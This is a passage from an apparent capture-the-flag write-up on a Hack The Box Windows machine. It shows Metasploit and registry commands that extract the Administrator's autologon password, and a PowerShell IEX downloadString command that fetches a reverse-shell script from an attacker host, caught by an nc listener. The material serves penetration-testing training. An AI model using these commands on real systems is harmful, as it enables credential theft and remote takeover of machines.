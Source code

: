````
[*] Started reverse TCP handler on 10.10.15.171:6969

executting our payload from smb share & getting shell

C:\inetpub\wwwroot\internal-01\log>\\10.10.15.171\kk\6969.exe

> use windows/gather/credentials/windows_autologin

msf post(windows/gather/credentials/windows_autologin) > set SESSION 7
SESSION => 7
msf post(windows/gather/credentials/windows_autologin) > run

[*] Running against BART on session 7
[+] AutoAdminLogon=1, DefaultDomain=DESKTOP-7I3S68E, DefaultUser=Administrator, DefaultPassword=3130438f31186fbaf962f407711faddb
[*] Post module execution completed
````


### Get credentials manually

I eventually found default credentials stored in the registry for autologon
Need `to be in 64 bit shell... => NC64 bits or upgrade 32bit shell to 64 shell
````
C:\inetpub\wwwroot\internal-01\log>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
    DefaultDomainName    REG_SZ    DESKTOP-7I3S68E
    DefaultUserName    REG_SZ    Administrator
    DefaultPassword    REG_SZ    3130438f31186fbaf962f407711faddb
````

?? Get-ItemProperty -path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" ??
There a several different ways to use these credentials to get access to administrator files (such as the flag). I’ll show two, run_as and net use:


### Credentials :  powershell “run as”

Use the password to create a credential that can be passed to Invoke-Command. In this case, shell.ps1 is another Invoke-PowerShellTcp.ps1 with the port changed to 5555:
````
PS C:\inetpub\wwwroot\internal-01\log> $username = "BART\Administrator"
PS C:\inetpub\wwwroot\internal-01\log> $password = "3130438f31186fbaf962f407711faddb"
PS C:\inetpub\wwwroot\internal-01\log> $secstr = New-Object -TypeName System.Security.SecureString
PS C:\inetpub\wwwroot\internal-01\log> $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\inetpub\wwwroot\internal-01\log> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
PS C:\inetpub\wwwroot\internal-01\log> Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.15.48:8083/shell.ps1') } -Credential $cred -Computer localhost

root@kali:~/hackthebox/bart-10.10.10.81# nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.10.15.48] from (UNKNOWN) [10.10.10.81] 50593
Windows PowerShell running as user Administrator on BART
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\Documents>whoami
bart\administrator
````
